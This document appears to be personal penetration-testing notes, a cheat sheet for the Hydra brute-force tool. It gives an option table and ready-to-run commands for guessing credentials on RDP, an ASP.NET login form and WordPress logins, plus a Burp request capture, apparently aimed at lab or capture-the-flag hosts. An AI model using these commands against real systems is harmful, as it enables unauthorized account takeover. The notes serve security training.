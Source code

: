 # Hydra

| Option            | Explanation                                                   |
| ----------------- | ------------------------------------------------------------- |
| `-l username`     | Provide the login name                                        |
| `-P WordList.txt` | Specify the password list to use                              |
| `server service`  | Set the server address and service to attack                  |
| `-s PORT`         | Set the server address and service to attack                  |
| `-V` or `-vV`     | Show the username and password combinations being tried       |
| `-d`              | Display debugging output if the verbose output is not helping | 

| Command                                                                                                                                         | Description                                                                                                                                                        |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hydra -P <wordlist> -v <ip> <protocol>`                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`                                                                  | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`                                                                                       | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' ` | Craft a more specific request for Hydra to brute force.                                                                                                            | 

Craft a more specific request for Hydra to brute force.

```shell
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.13.215 http-form-post "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Q3C6t5UR5WbecqI6RxFVaHu2Jtr1TdsBm55dod6%2BSIHxT0kxMBXn8wPbUnML9Vy9uRcSdloliGhTiMXdg3L7dnVvby02BPayOuD6c2LVg%2FU1c1yfSmFi5O6NlaTJYr68DyAXNg6D0j2asLCrpbH%2FWtzIy%2BZc3SUPCjeyLjkOGGAvF%2BTu&__EVENTVALIDATION=v4fE3cbsejLdoruZ%2FnmnsQwMup0S0RVxnZgjAleWBCxzueQe6GQdUCeTG2i7uhPOvsZLXXydTOvEA2CVgd1vzxHIeYpzSSUxXjRSmXxYMBjDiqZ%2BE3y8DMbAC4KwudESlYVM2xBlpPHOe5utRfzqUDFKO5Df4kWeOvLVLRLBuTxZAlxu&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" 
```

WordPress - Burp
```php
POST /wp-login.php HTTP/1.1

Host: 10.10.114.27

log=§admin§&pwd=§admin§&wp-submit=§Log+In§&redirect_to=§https%3A%2F%2F10.10.114.27%2Fwp-admin%2F§&testcookie=§1§
```

WordPress - Hydra input username
```shell
hydra -L fsocity.dic -p test 10.10.114.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30
```

WordPress - Hydra input password
```shell
hydra -l Elliot -P fsocity.dic 10.10.114.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 30 
```


#tools #hydra